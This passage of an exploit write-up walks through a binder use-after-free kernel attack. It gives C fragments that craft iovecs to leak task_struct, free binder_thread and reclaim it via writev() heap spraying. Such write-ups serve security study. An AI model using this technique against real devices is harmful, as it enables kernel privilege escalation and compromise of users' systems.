 ```c
    }

    /* used later to unblock the write and avoid deadlocking */
    printf("\t[+] allocating the dummy page\n");
    dummy_page = map_dummy_page();

    if(!dummy_page) {
        printf("\t[-] unable to mmap the dummy page\n");
        exit(-1);
    }

    printf("\t[+] crafting iovecs to leak task_struct\n");
    iovec[IOVEC_OVERLAP_INDEX].iov_base = dummy_page;
    iovec[IOVEC_OVERLAP_INDEX].iov_len = PAGE_SIZE;
    iovec[IOVEC_OVERLAP_INDEX + 1].iov_base = (void *) 0x41414141;
    iovec[IOVEC_OVERLAP_INDEX + 1].iov_len = PAGE_SIZE;
    [...]
}
```

Now the interesting part comes in, we use `fork()` to create a child process, which will sleep for 2 seconds, in the meanwhile the parent process frees the `binder_thread` struct, and calls `writev()`, which will allocate 25 iovecs to make the kernel allocate them in kmalloc-512, since every `iovec` struct is 16 bytes, we'll allocate 400 bytes and reallocate the `binder_thread` struct which is 408 bytes. We only initialize the [10] and [11] ones so that kernel won't process the other ones, which aren't useful to exploitation.

```c
pid_t child = fork();
if (!child) {
    /* used to avoid race conditions */
    sleep(2);
    [...]
}

/* free binder_thread struct */
binder_thread_free();

/* reallocates binder_thread with iovecs */
nBytesWritten = writev(WRITE_PIPE, iovec, IOVEC_SIZE);
```

Now iovecs overlapped `binder_thread` struct, that's how it looks like in memory:
